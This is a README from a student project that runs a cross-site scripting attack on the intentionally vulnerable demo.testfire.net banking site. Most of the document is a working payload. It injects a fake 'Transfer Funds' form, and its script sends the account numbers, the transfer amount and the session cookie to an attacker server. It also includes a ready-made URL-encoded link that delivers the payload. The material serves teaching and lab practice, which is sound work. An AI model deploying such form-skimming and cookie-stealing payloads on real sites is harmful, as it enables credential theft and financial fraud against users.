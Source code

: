 # About
Cross Site Scripting attack on an already logged in user.
This is done on a website which is made intentionally vulnerable.
https://demo.testfire.net/<br>
**This is only for learning purposes.**
## Note:
Below is the script, execute this on any input form eg (Search, feedback) of the given website.
You must have local server setup, here it is node server localhost:3000. code is uploaded clone it and run on your system.

Here we are getting user's money transfer information by using fake transfer form which users would not be able notice and they will transfer money to the accounts and all those transfer details are sent to the local server of the attacker.

# Execution

```javascript
<form id="tForm" name="tForm" method="post" action="doTransfer" onsubmit="return (confirminput(tForm));"><h1>Transfer Funds</h1><table width="100%" cellspacing="0" cellpadding="1" border="0"><tbody><tr><td><strong>From Account:</strong></td><td><select size="1" id="fromAccount" name="fromAccount"><option value="800000">800000 Corporate</option><option value="800001">800001 Checking</option></select></td></tr><tr><td><strong>To Account:</strong></td><td><select size="1" id="toAccount" name="toAccount"><option value="800000">800000 Corporate</option><option value="800001">800001 Checking</option></select></td></tr><tr><td><strong> Amount to Transfer:</strong></td><td><input type="text" id="transferAmount" name="transferAmount"></td></tr><tr><td colspan="2" align="center"><input type="button" name="transfer" onclick= "showTransaction()" value="Transfer Money" id="transfer"></td></tr><tr><td colspan="2">&nbsp;</td></tr><tr><td colspan="2" align="center"><span id="_ctl0__ctl0_Content_Main_postResp" align="center"><span style="color: Red"></span></span></span></td></tr></tbody></table></form>

<script type="text/javascript">
    document.getElementsByClassName("fl")[0].children[0].textContent = "";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
    var today = new Date();
    var date = today.getFullYear()+'-'+(today.getMonth()+1)+'-'+today.getDate();
    var time = today.getHours() + ":" + today.getMinutes() + ":" + today.getSeconds();
    var dateTime = date+' '+time;
    function showTransaction()
    {
        new Image().src='http://localhost:3000/?FromAccount='+document.forms["tForm"].fromAccount.value
        +'&ToAccount='+document.forms["tForm"].toAccount.value
        +'&TransferMoney='+document.forms["tForm"].transferAmount.value+'&'+document.cookie;
        
        document.getElementById("_ctl0__ctl0_Content_Main_postResp").children[0].textContent = document.forms["tForm"].transferAmount.value
        +".0 was successfully transferred from Account "+ document.forms["tForm"].fromAccount.value+ " into Account "
        + document.forms["tForm"].toAccount.value + " at "+dateTime;
    }   
</script>
```

## Direct link to get to the fake form
<a href="https://demo.testfire.net/search.jsp?query=%3Cform+id%3D%22tForm%22+name%3D%22tForm%22+method%3D%22post%22+action%3D%22doTransfer%22+onsubmit%3D%22return+%28confirminput%28tForm%29%29%3B%22%3E%3Ch1%3ETransfer+Funds%3C%2Fh1%3E%3Ctable+width%3D%22100%25%22+cellspacing%3D%220%22+cellpadding%3D%221%22+border%3D%220%22%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3EFrom+Account%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cselect+size%3D%221%22+id%3D%22fromAccount%22+name%3D%22fromAccount%22%3E%3Coption+value%3D%22800000%22%3E800000+Corporate%3C%2Foption%3E%3Coption+value%3D%22800001%22%3E800001+Checking%3C%2Foption%3E%3C%2Fselect%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3ETo+Account%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cselect+size%3D%221%22+id%3D%22toAccount%22+name%3D%22toAccount%22%3E%3Coption+value%3D%22800000%22%3E800000+Corporate%3C%2Foption%3E%3Coption+value%3D%22800001%22%3E800001+Checking%3C%2Foption%3E%3C%2Fselect%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3E+Amount+to+Transfer%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22transferAmount%22+name%3D%22transferAmount%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22+align%3D%22center%22%3E%3Cinput+type%3D%22button%22+name%3D%22transfer%22+onclick%3D+%22showTransaction%28%29%22+value%3D%22Transfer+Money%22+id%3D%22transfer%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22%3E%26nbsp%3B%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22+align%3D%22center%22%3E%3Cspan+id%3D%22_ctl0__ctl0_Content_Main_postResp%22+align%3D%22center%22%3E%3Cspan+style%3D%22color%3A+Red%22%3E%3C%2Fspan%3E%3C%2Fspan%3E%3C%2Fspan%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E++%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+++++var+today+%3D+new+Date%28%29%3B+++++var+date+%3D+today.getFullYear%28%29%2B%27-%27%2B%28today.getMonth%28%29%2B1%29%2B%27-%27%2Btoday.getDate%28%29%3B+++++var+time+%3D+today.getHours%28%29+%2B+%22%3A%22+%2B+today.getMinutes%28%29+%2B+%22%3A%22+%2B+today.getSeconds%28%29%3B+++++var+dateTime+%3D+date%2B%27+%27%2Btime%3B+++++function+showTransaction%28%29+++++%7B+++++++++new+Image%28%29.src%3D%27http%3A%2F%2Flocalhost%3A3000%2F%3FFromAccount%3D%27%2Bdocument.forms%5B%22tForm%22%5D.fromAccount.value+++++++++%2B%27%26ToAccount%3D%27%2Bdocument.forms%5B%22tForm%22%5D.toAccount.value+++++++++%2B%27%26TransferMoney%3D%27%2Bdocument.forms%5B%22tForm%22%5D.transferAmount.value%2B%27%26%27%2Bdocument.cookie%3B++++++++++++++++++document.getElementById%28%22_ctl0__ctl0_Content_Main_postResp%22%29.children%5B0%5D.textContent+%3D+document.forms%5B%22tForm%22%5D.transferAmount.value+++++++++%2B%22.0+was+successfully+transferred+from+Account+%22%2B+document.forms%5B%22tForm%22%5D.fromAccount.value%2B+%22+into+Account+%22+++++++++%2B+document.forms%5B%22tForm%22%5D.toAccount.value+%2B+%22+at+%22%2BdateTime%3B+++++%7D+++++%3C%2Fscript%3E">Demo Link for fake Transaction</a>

# Authors

Ashkan Es Haghi <br>
Alexander Grissinger <br>
Muddassir Hussain <br>

# Project Date
08.11.2019

